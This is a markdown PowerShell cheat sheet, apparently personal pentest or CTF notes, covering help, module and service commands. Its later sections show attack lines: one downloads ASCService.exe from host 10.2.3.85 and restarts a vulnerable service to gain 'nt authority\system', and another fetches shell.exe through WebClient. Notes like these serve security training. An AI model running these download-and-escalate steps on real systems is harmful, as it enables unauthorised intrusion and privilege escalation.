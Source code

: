 # PowerShell

## PowerShell Basics

| Command | Summary |
| ---------------------------- | ---------------------------- |
| Get-Help Get-FileHash | This command gets the help page for the cmdlet you are trying to run |
| Get-Help process | This finds all cmdlets with process in the name |
| Get-Help Get-FileHash -Full | This requests the full help documentation |
| Get-Help Get-FileHash -Examples | This requests examples for the cmdlet you requested |
| Get-Command -CommandType cmdlet | This provides a list of ALL available cmdlets on your system |
| Get-Process | This lists the processes running on your host (like ps -aux on nix) |
| Get-Command -Module Get-FileHash | Provides a list of all commands in module | 

## Importing Module
```
Import-Module <name of ps1>
OR
. .\powershell-script.ps1
```

## Checking Services
```
get-service AdvancedSystemCareService9
stop-service AdvancedSystemCareService9
start-service AdvancedSystemCareService9

powershell -c get-service AdvancedSystemCareService9
powershell -c stop-service AdvancedSystemCareService9
powershell -c start-service AdvancedSystemCareService9
```

## Invoke-WebRequest
```
c:/> Invoke-WebRequest "http://10.2.3.85/ASCService.exe" -OutFile "ASCService.exe"
c:/> powershell -c Invoke-WebRequest "http://10.2.3.85/ASCService.exe" -OutFile "ASCService.exe"
c:/> powershell -c start-service AdvancedSystemCareService9

WOOTWOOT
c:\Windows\system32>whoami
nt authority\system
```

## New-Object System.Net.WebClient (alternate download method)
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.3.85/shell.exe','shell.exe')"
```
